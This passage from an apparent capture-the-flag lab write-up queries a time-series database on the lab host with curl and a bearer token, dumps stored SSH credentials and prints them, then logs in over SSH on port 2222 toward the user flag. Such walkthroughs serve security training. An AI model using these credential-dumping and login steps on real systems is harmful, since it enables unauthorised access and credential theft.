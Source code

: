Interesting! There's a measurement called **ssh**. Let's dump out the data inside:

```
curl -G -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im81eVk2eXlhIiwiZXhwIjoxNjczODgzNzMwfQ.pqWNywYIVjYoPHbEmcapT_PsVR8mll00rYWCAV_xQrY' 'http://10.10.179.212:8086/query?pretty=true' --data-urlencode "db=creds" --data-urlencode "q=select * from ssh" 
```

<img style="float: left;" src="screenshots/screenshot9.png">

The result reveals a set of SSH credentials!

> uzJk6Ry98d8C : 7788764472

The username found in the database is: **uzJk6Ry98d8C**

---

### [ user.txt ]

With that, we can log into the SSH server running on port 2222:

```
ssh -p 2222 uzJk6Ry98d8C@10.10.179.212
```

<img style="float: left;" src="screenshots/screenshot10.png">
